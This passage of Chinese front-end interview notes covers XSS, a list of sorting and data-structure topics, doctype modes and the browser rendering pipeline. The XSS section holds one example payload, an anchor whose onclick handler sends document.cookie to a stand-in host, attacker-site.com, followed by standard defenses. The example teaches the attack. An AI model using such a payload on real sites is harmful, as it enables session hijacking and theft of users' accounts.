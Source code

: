* **xss(跨域脚本攻击)**

  * **定义**：XSS 攻击， 通常指 黑客 通过“ HTML 注入” 篡改 了 网页， 插入 了 恶意 的 脚本， 从而 在用 户 浏览 网页 时， 控制 用户 浏览器 的 一种 攻击。

  * **危害**：XSS 攻击 带来 的 不光 是 Cookie 劫持 问题， 还有 窃取 用户 信息、 模拟 用户 身份 执行 操作 等 诸多 严重 的 后果。

  * **例如**：

    * 用户通过提交表单等， 向页面注入恶意脚本

    * 在页面插入恶意脚本， 进行cookie劫持

      ```html
      <a href=# onclick=\”document.location=\’http://attacker-site.com/xss_collect?m=\’+escape\(document.cookie\)\;\”>快看, 这里有美女在洗澡</a>
      ```

  **防御**:

  * 给cookie增加http only的属性 （客户端无法通过document.cookie获取到）， 该方法并非全面防御xss，仅防御cookie劫持
  * 过滤用户输入
  * 检查输出
  * 定时更换sessionid

##### 算法

* 排序
  * 快速排序
  * 选择排序
  * 希尔排序
  * 冒泡排序
* 堆栈, 队列, 链表
* 递归
* 波兰式和逆波兰式





### 二面

#### 渲染机制

* **doctype及作用**

  * DTD文档类型定义, 浏览器使用它来判断文档类型, 决定使用何种协议来解析和切换浏览器模式
  * doctype是用来声明文档类型和dtd规范的

  文档类型

  * html5, 
  * html4.01strict模式, 包含所有html元素属性,**不包含**展示性和弃用的元素(比如front)
  *  html4.01传统模式（怪异模式） 包含所有html元素属性, 也**包含**弃用元素

* **浏览器的渲染过程**

  * html - html parse 解析- **dom tree**
  * style - css parse 规则解析 - **style-rules**
  * style rules 和 **dom tree** 整合, 变为 **render tree**(渲染树), 浏览器**layout**决定元素的位置和大小, 绘制页面(**painting**)
